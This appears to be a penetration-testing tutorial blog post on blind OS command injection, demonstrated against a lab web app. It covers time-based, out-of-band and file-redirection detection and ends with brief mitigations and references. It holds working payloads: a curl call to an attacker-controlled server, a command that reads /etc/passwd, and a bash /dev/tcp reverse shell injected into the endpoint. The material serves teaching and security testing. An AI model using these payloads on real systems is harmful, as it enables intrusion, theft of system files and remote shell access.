 ```yaml
---
title: Blind Command Injection
date: 2022-01-01 05:49:33 +0800
categories: [WebApp And Api Pentesting, Injection]
tags: [webapp, pentesting, Owasp, cmdi, os, command injection, blid command injection]     # TAG names should always be lowercase
---
```


# Blind Command Injection

***Blind Command Injection*** is a cyber attack that involves executing arbitrary commands on a host operating system (OS) but  does not return the output from the command within its HTTP response. Blind Command injection attacks are possible when an application passes unsafe user supplied data (forms, cookies, HTTP headers etc.) to a system shell. In this attack, the attacker-supplied operating system commands are usually executed with the privileges of the vulnerable application.

# Detecting Blind Command Injection

In the below image, we can see that the web interface takes in ip address, and perform certain operation on the ip address. Since no output is returned, we may not know what is happening with our supplied input in the backend.

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdbwablind1.png)

But we can get command execution if our supplied input is passed to a system shell without being sanitized, anyway , if we attempt to predict, we may write something like this `X [ip]` or `X [ip] X`, where X is our unknown command. By suppliying 127.0.0.1, it will be `X 127.0.0.1` or `X 127.0.0.1 X` 

## Time-Based

Time-Based is a technigue of delaying the response time of a target server by sending a command that will make the server to wait for a given time. Using `sleep`, We make the server to sleep (or wait) for a period of time before sending back a response, this can help us determine whether or not our supplied input is directly executed in a system shell. By suppliying `127.0.0.1;sleep 10;`, the command will be something like this `X 127.0.0.1;sleep 10;` or `X 127.0.0.1;sleep 10; X`, this will make the backend server to execute two different commands, one is `X 127.0.0.1` and the other is `sleep 10`, this will make the server to sleep for `10 seconds` if our supplied input is executed directly in a system shell.

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdbwablind2.png)

From the above image no response is received, this means our supplied input is directly executed in a system shell thereby causing it to wait for `10 seconds`.

## Out-Of-Bound 

Out-Of-Bound is a technigue that allows you to force the target server into sending request to your controlled server. There are different ways to get this done, using `curl`, `ping`, `nslookup` and so on, By using `curl`, We can make the server to send an http request to our controlled server, this can help us determine whether or not our supplied input is directly executed in a system shell. By suppliying `127.0.0.1;curl http://controledhttpserver/;`, the command will be something like this `X 127.0.0.1;curl http://controledhttpserver/;` or `X 127.0.0.1;curl http://controledhttpserver/; X`,this will make the backend server to execute two different commands, one is `X 127.0.0.1` and the other is `curl http://controledhttpserver/`, if our supplied input is executed directly in a system shell, it will make the server to issue http request to our controlled server.

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdbwablind3.png)

*receiving http request*

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdbwablind3kali.png)

## Redirection To A File

We can also determine whether or not our supplied input is directly executed in a system shell by redirecting the output of the executed command to a file that can be accessible from web interface. By supplying this `127.0.0.1;uname -a > /var/www/cmd.txt;`, the command will be something like this `X 127.0.0.1;uname -a > /var/www/cmd.txt;` or `X 127.0.0.1;uname -a > /var/www/cmd.txt; X`,  if our supplied input is executed directly in a system shell, it will create a new cmd.txt file in the root of the server(/var/www/) and redirect the output of the executed command to the file `/var/www/cmd.txt`

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdbwablind5.png)

We can access the file by visiting it

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdbwablind5res.png)

We can also read the content of a local file i.e `/etc/passwd` by supplyig this payload `127.0.0.1;cat /etc/passwd > /var/www/cmd.txt;`

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdbwablind6.png)

*content of /etc/passwd*

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdbwablind6res.png)

# Exploitation

## Getting Reverse Shell

To get a reverse shell, we used the reverse shell payload below and setup our listener using netcat i.e `nc -nlvp [port]`.

```bash
bash -c '/bin/bash -i >& /dev/tcp/10.42.0.1/10000 0>&1'
```
Then supplied the following `127.0.0.1;bash -c '/bin/bash -i >& /dev/tcp/10.42.0.1/10000 0>&1;` to the vulnerable endpoint.

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdbwablind7.png)

*receiving reverse shell*

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdbwablind7kali.png)


# Mitigations

- Avoid calling OS commands directly, Instead Use Built-in library functions.
- Escape values added to OS commands specific to each OS
- Applications should run using the lowest privileges that are required to accomplish the necessary tasks.

# References

- [https://portswigger.net/web-security/os-command-injection](https://portswigger.net/web-security/os-command-injection)
- [https://owasp.org/www-community/attacks/Command_Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [https://book.hacktricks.xyz/pentesting-web/command-injection](https://book.hacktricks.xyz/pentesting-web/command-injection)
- [https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html)

